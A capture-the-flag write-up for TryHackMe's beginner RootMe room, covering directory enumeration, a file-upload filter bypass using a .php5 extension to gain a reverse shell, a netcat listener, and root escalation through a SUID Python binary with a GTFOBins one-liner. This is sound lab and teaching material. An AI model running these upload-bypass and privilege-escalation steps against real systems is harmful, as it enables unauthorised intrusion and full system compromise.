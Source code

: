 # RootMe Writeup (TryHackMe)

## Challenge Overview

RootMe is a beginner-friendly room on TryHackMe that focuses on fundamental web exploitation techniques and Linux privilege escalation. The main objectives include discovering hidden directories, bypassing file upload restrictions to get a reverse shell, and escalating privileges using a known SUID binary.

---

## Enumeration

Scanned the target using:

```bash
sudo nmap <target> -sS -T4 -A -oN init_scan
```

![2025-05-07_12-07](https://github.com/user-attachments/assets/3b8590c3-3019-4e72-bc2a-8d6d20ba7774)

Open ports: `22`, `80`

## Web Enumeration

Used Gobuster to look for hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-07_12-12](https://github.com/user-attachments/assets/b2f7b77d-86ab-4e40-be99-1cc47f85e780)

Found `/uploads` and `/panel`.

## File Upload Exploit

The `/panel` directory allowed uploading files, accessible later via `/uploads`.

![2025-05-07_12-14_1](https://github.com/user-attachments/assets/cbcdef1f-4988-45d3-8263-a85ec343143e)
![2025-05-07_12-14](https://github.com/user-attachments/assets/1d9c409e-424e-438a-a575-7afc3eeb6569)

Tried uploading a PHP reverse shell. It rejected `.php`, `.php.gif`, and `.php.jpg` due to image validation errors.

![2025-05-07_12-21](https://github.com/user-attachments/assets/f10ee265-453d-4bba-9116-ea6f09be5b42)
![2025-05-07_12-50](https://github.com/user-attachments/assets/f6fbbfc3-1821-4635-aad6-9ee591a1ca4c)

Found `.php5` as a bypass method, and it worked. Uploaded the reverse shell as `.php5`, gained reverse shell.

![2025-05-07_13-00](https://github.com/user-attachments/assets/ced59dd5-b435-4f60-b81e-6e1b88068689)
![2025-05-07_12-58](https://github.com/user-attachments/assets/18b90b5b-bfd3-44b3-a35a-8a39d19a4f3f)

Set up Netcat listener:

```bash
nc -lvnp 7777
```

![2025-05-07_13-01](https://github.com/user-attachments/assets/2dc89d7d-4752-44e6-a17f-aaec10a2ca6f)

Upgraded shell using Python:

```bash
which python
which python3
python -c 'import pty; pty.spawn("/bin/bash")'
```

![2025-05-07_13-03](https://github.com/user-attachments/assets/98a656b6-e3a2-4602-a1a8-b5c90bdf84bb)

## User Flag

Located the user flag:

```bash
find / -type f -name user.txt 2>/dev/null
```

![2025-05-07_13-09](https://github.com/user-attachments/assets/2360d452-ca6f-4f08-9713-05fed3668721)

Found at: `/var/www/user.txt`

## Privilege Escalation

Searched for SUID binaries:

```bash
find / -type f -perm -04000 2>/dev/null
```

![2025-05-07_13-12](https://github.com/user-attachments/assets/16c9ae50-fcdb-4204-bb81-f6f3e6da1cba)

Found `/usr/bin/python` with SUID set.

Used GTFOBins trick:

![2025-05-07_13-13](https://github.com/user-attachments/assets/74f94857-4ef3-4925-be3d-f2accd3ab6b7)

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![2025-05-07_13-14](https://github.com/user-attachments/assets/64f56252-548d-467c-b596-8ce1a922af1a)

Got root shell.

Located the root flag:

```bash
find / -type f -name root.txt 2>/dev/null
```

![2025-05-07_13-15](https://github.com/user-attachments/assets/b3cfa837-37fe-4be0-b26d-12d610b6088f)

Found at: `/root/root.txt`

## Conclusion

![2025-05-07_13-15_1](https://github.com/user-attachments/assets/9cdf2f15-332a-4895-84ae-3b1b44b24085)

This challenge covered file upload vulnerabilities, reverse shell techniques, and classic SUID exploitation.

* Found hidden directories with Gobuster
* Bypassed file upload restrictions with `.php5`
* Used Python SUID binary for root escalation

A solid exercise in understanding how insecure file upload mechanisms and misconfigured SUID binaries can be leveraged for full system compromise.

